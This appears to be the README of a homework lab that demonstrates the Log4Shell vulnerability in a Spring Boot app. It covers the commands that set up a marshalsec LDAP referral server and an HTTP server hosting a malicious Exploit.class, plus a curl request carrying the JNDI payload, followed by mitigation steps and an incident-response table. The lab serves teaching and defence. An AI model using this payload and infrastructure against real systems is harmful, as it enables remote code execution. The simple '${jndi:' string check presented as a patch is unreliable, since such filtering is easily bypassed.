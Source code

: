 
This project demonstrates the **Log4Shell (CVE-2021-44228)** vulnerability in a Spring Boot application using **Log4j 2.14.1**, 
and walks through a full exploit lifecycle with **MITRE ATT&CK/REACT** response phases and mitigation.

---
Project Structure:
HW9_Log4Shell/
├── log4shell-homework/        # Vulnerable Spring Boot app with Log4j 2.14.1
├── marshalsec/                # LDAPRefServer for JNDI exploit delivery
└── Exploit.java               # Malicious class payload (compiled and hosted)

---

Setup Instructions (AWS Linux 2)
1. Clone the Repo
 ```shell
git clone https://github.com/zilantix/HW9_Log4Shell.git
cd HW9_Log4Shell
 ```
2. Run Setup Script *(Optional)*
 ```shell
chmod +x setup_log4shell_lab.py
./setup_log4shell_lab.py
 ```

3. Manually Start LDAP Exploit Infrastructure
 ```shell
cd marshalsec
java -cp target/marshalsec-*-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<EC2-IP>:8000/#Exploit"
 ```
# In another terminal:
 ```shell
cd ~/exploit
python3 -m http.server 8000
 ```

---
Exploit Testing
 ```shell
curl -H 'Content-Type: text/plain' --data '${jndi:ldap://host.docker.internal:1389/a}' http://localhost:8080/log
 ```
Confirm `GET /Exploit.class` in your HTTP server logs.
---

Mitigation

- Patched input via validation in `LogController.java`:
 ```shell
java
if (input.contains("${jndi:")) {
    return "Invalid input detected";
}
 ```
- upgrade/change pom.xml on to Log4j 2.17.0 for full vendor patch

---
Incident Response (MITRE REACT)

| Phase     | Action                                        |
|-----------|-----------------------------------------------|
| Detect    | `docker logs` → saw `${jndi:` in input        |
| Contain   | `docker-compose down`                         |
| Eradicate | Confirmed no running containers               |
| Recover   | Redeployed patched version                    |
| Report    | Validated with sanitized test input           |



References

- [Apache Log4j Security Page](https://logging.apache.org/log4j/2.x/security.html)
- [MITRE ATT&CK T1190](https://attack.mitre.org/techniques/T1190/)
- [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [Marshalsec LDAPRefServer](https://github.com/mbechler/marshalsec) Java Unmarshaller Security - Turning your data into code execution

---

📘 For educational use only. Not intended for real-world exploitation.
